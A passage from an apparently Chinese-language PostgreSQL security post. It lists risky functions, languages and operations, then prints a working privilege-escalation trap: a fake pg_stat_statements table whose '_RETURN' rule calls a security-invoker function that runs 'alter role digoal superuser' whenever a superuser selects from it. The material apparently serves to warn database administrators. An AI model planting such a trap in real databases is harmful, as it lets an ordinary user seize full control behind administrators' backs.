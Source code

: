 ```  
 pg_catalog | pg_stat_file        | record           | filename text, OUT size bigint, OUT access timestamp with time zone, OUT modification timestamp with time zone, OUT change timestamp with time zone, OUT creation timestamp with time   
zone, OUT isdir boolean | normal  
(6 rows)  
```  
  
函数语言：  
  
```  
plpythonu  
```  
  
操作  
  
```  
COPY  
DROP  
CREATE  
ALTER  
。。。。。。  
```  
  
还有一种比较BT的伪装方法：  
  
```  
postgres=> create table pg_stat_statements (  
 userid oid              ,  
 dbid                oid      ,          
 queryid             bigint      ,       
 query               text           ,    
 calls               bigint      ,       
 total_time          double precision ,  
 rows                bigint           ,  
 shared_blks_hit     bigint   ,          
 shared_blks_read    bigint    ,         
 shared_blks_dirtied bigint     ,        
 shared_blks_written bigint      ,       
 local_blks_hit      bigint       ,      
 local_blks_read     bigint          ,   
 local_blks_dirtied  bigint        ,    
 local_blks_written  bigint         ,    
 temp_blks_read      bigint          ,   
 temp_blks_written   bigint           ,  
 blk_read_time       double precision ,  
 blk_write_time      double precision );  
  
postgres=> create or replace function f() returns pg_stat_statements as $$                  
declare  
begin  
  alter role digoal superuser;  
end;  
$$ language plpgsql security invoker;  
CREATE FUNCTION  
  
postgres=> create rule "_RETURN" as on select to pg_stat_statements do instead select * from f();  
CREATE RULE  
```  
  